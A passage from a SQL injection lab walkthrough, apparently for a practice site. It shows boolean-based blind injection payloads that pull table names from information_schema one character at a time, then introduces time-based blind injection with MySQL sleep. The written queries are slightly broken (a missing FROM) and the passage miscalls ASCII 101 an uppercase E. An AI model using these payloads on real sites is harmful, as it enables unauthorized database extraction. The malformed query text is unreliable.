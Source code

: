 Now we start to enumerate the database. The query is

`id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) < 105 –+`

and we see
a message
You are in……….
It means true.

![144.jpg](./img/144.png)


Now let us try value 101:


`id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) = 101 –+`

and we see a message
You are in……

![145.jpg](./img/145.png)


It means the 1st letter is E for Email.

#Lessons 9 & 10: Blind injection time-based

Lab 9 does not give us a signal or an error that we have tampered the query, which results in Mysql error. So now it makes us check whether SQL injection is possible.

![146.jpg](./img/146.jpg)

Here we introduce how to use the sleep command in Mysql. What we see from the screenshot is that we get a response 10 sec after running the query, so the Mysql sleeps for 10 seconds.
